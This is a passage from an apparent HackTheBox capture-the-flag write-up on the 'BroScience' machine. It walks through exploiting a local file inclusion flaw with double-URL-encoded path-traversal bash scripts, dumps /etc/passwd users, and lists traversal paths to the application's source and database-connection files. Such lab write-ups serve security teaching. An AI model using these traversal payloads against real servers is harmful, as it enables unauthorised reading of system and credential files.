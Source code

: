 - If you have `xlip` installed it will clip it to your clipboard.
- Additionally, here is a `bash` script that accepts one argument that being the url-encoded file.

```bash
#!/bin/bash

curl -k "https://broscience.htb/includes/img.php?path=$1"
```

- It looks like this:

![image](https://0xc0rvu5.github.io/docs/assets/images/20230125003351.png)

- Alternatively, I combined the two.

```bash
#!/bin/bash

read -p "File: " file
result=$(echo $file | perl -MURI::Escape -ne 'chomp;print uri_escape(uri_escape($_));')
echo -e "File URL-encoded in case you want it: $result"
curl -k "https://broscience.htb/includes/img.php?path=$result"
```

- You can use the following syntax to run the script, output it to console and add the content to a file named `testing.txt`

![image](https://0xc0rvu5.github.io/docs/assets/images/20230125003725.png)

- Here is the output of `users` with a usable shell in the `/etc/passwd` file:

```bash
cat broscience_etc_passwd.txt | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230125003911.png)

- Now that we know we can access the file system with the `LFI` (local file inclusion) we should see if we can pull other additional files that are relevant.
- Here are the relevant files you will need prior to being url-encoded.

```bash
../../../../var/www/html/register.php
../../../../var/www/html/includes/db_connect.php
../../../../var/www/html/includes/img.php
../../../../var/www/html/includes/utils.php
// The below endpoint will not be used until a later point.
../../../../var/www/html/swap_theme.php
```

- `register.php`
- In the `register.php` code you can see a function that most likely comes from `includes/utils.php`.
- Whatever this code does will determine how the `$activation_code` variable is created. 
- On line `41` I made it a point to include the `md5($db_salt . $_POST['password'])` section to clarify that if/when we make it to the database there will be a `salt` attached to the password.
- Finally the `$activation_link` will be successful if there is a proper `$activation_code` following the `?code=` parameter passed to the `activate.php` endpoint.
